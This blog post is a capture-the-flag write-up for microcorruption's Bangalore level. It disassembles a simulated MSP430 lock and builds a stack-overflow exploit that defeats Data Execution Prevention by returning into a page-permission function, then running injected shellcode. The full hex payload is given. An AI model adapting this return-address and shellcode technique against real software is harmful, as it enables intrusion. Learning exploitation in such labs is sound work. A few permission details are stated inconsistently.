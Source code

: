 ```yaml
---
layout: post
title: 'Fun with Assembly 16: '
date: 2015-09-02
status: publish
type: post
published: true
author: Hywel Carver
---
```

This is the sixteenth in a series. You might want to read the [previous post]({% post_url 2015-09-01-fun-with-assembly-15 %}) before reading this.

This post is based on the Bangalore level on [microcorruption.com](http://microcorruption.com). Like last time, we’re trying to find an input to open a lock without knowing the correct password, using knowledge of assembly language.

# First steps

This level is introduced to us as having memory protection - every page of memory is either writable or executable but never both, normally called [Data Execution Prevention](https://en.wikipedia.org/wiki/Data_Execution_Prevention). The lock manual describes a few relevant interrupts for this: `INT 0x10` turns on DEP, `INT 0x11` takes a page number and a second argument of 1 if the page is writable and 0 if its executable.

Let's look through the code. The main function here calls `set_up_protection` then `login`, and that's all.

### `set_up_protection`

    44de <set_up_protection>
    44de:  0b12           push  r11
    44e0:  0f43           clr   r15
    44e2:  b012 b444      call  #0x44b4 <mark_page_executable>
    44e6:  1b43           mov   #0x1, r11
    44e8:  0f4b           mov   r11, r15
    44ea:  b012 9c44      call  #0x449c <mark_page_writable>
    44ee:  1b53           inc   r11
    44f0:  3b90 4400      cmp   #0x44, r11
    44f4:  f923           jne   #0x44e8 <set_up_protection+0xa>

Mark page 0 as executable, mark pages up to `0x43` = 67 as writable.

    44f6:  0f4b           mov   r11, r15
    44f8:  b012 b444      call  #0x44b4 <mark_page_executable>
    44fc:  1b53           inc   r11
    44fe:  3b90 0001      cmp   #0x100, r11
    4502:  f923           jne   #0x44f6 <set_up_protection+0x18>

Mark pages from `0x44` to `0x100` (68 to 255) as executable.

    4504:  b012 cc44      call  #0x44cc <turn_on_dep>
    4508:  3b41           pop   r11
    450a:  3041           ret
    450c:  3041           ret

Then turn on the protection. The executable areas will be the `0x00xx` addresses and the `0x44xx` addresses onwards. `0x4400` is where the code segment starts. It's not clear why there are two `ret`s here.

### `login`

Luckily, the `login` function is much shorter this time.

    4512 <login>
    4512:  3150 f0ff      add   #0xfff0, sp
    4516:  3f40 0024      mov   #0x2400, r15
    451a:  b012 7a44      call  #0x447a <puts>
    451e:  3f40 2024      mov   #0x2420, r15
    4522:  b012 7a44      call  #0x447a <puts>

Increase the stack by 16 bytes, then write out a couple of strings.

    4526:  3e40 3000      mov   #0x30, r14
    452a:  0f41           mov   sp, r15
    452c:  b012 6244      call  #0x4462 <getsn>

Get 48 bytes of input onto the stack pointer.

    4530:  3f40 6524      mov   #0x2465, r15
    4534:  b012 7a44      call  #0x447a <puts>
    4538:  3150 1000      add   #0x10, sp
    453c:  3041           ret 

Cheekily, this immediately writes out that we had the wrong password. It doesn't even check with the lock! We're going to have to somehow get the code to execute instructions which don't currently exist.

### Developing an exploit.

Normally, the lock is opened by calling `INT` with a value of `0x7f`. Looking back at the `INT` function from a previous level, you can see that this will result in the `sr` register being `0xff00`, then `call #0x10` being executed.

    4904 <INT>
    4904:  0c4f           mov   r15, r12
    4906:  0d12           push  r13
    4908:  0e12           push  r14
    490a:  0c12           push  r12
    490c:  0012           push  pc
    490e:  0212           push  sr
    4910:  0f4c           mov   r12, r15
    4912:  8f10           swpb  r15
    4914:  024f           mov   r15, sr
    4916:  32d0 0080      bis   #0x8000, sr
    491a:  b012 1000      call  #0x10
    491e:  3241           pop   sr
    4920:  3152           add   #0x8, sp
    4922:  3041           ret

It's tempting to think that we could write our own assembly code to do this, put that onto the stack, and then manipulate the return value of the `login` function to return into that code. However, because of the DEP, the stack is writable so it isn't exectuable.

But what if we could make the stack executable once we'd written to it? We could return into the `mark_page_executable` function, and setup the stack so that the page of the stack that we write onto is made executable. To do that, we'd want to return to `0x44ba`, and to have `0x40` and `0x00` next on the stack so that the 40th page is set to executable.

That function finishes by decreasing the size of the stack (so we need 2 bytes of filler) then returning. We can manipulate this return value too (the next two bytes on the stack), so let's set it to be the next byte along on the stack, so that we can write bytecode to be returned to. That's going to be `0x4006`.

At that point we should insert some instructions that call an interrupt with the right parameter. We'll need to move the stack pointer to be in a writeable page, so that the system call doesn't fail. Compiling the instructions:

    add #0xfff0, sp
    mov #0xff00, sr
    call #0x10

we get `3150f0ff324000ffb0121000` as our bytecode.

So in total our exploit is:
 - `0x4142434445464748494a4b4c4d4e4f50` (to fill up the allocated buffer)
 - `0xba44` (to return into the function that will make a page executable)
 - `0x4000` to set page 40 as writable (with the second argument of 0)
 - `0x4141` as 2 bytes of filler
 - `0x0640` so that the next return takes us to execute from `0x4006` on the stack
 - `0x3150f0ff324000ffb0121000`, the bytecode, which will start at address `0x4006`

`0x4142434445464748494a4b4c4d4e4f50ba444000414106403150f0ff324000ffb0121000`

# The door springs open

This was a complicated exploit. Because we could overflow the stack by a long way, we could overwrite a return address on the stack, and add parameters to a system call. That was enough to overcome the DEP. By continuing the pattern of overwriting return adresses, we could return the CPU to start executing on part of the string we inputted.

That part of the string contained the bytecode required to open the lock.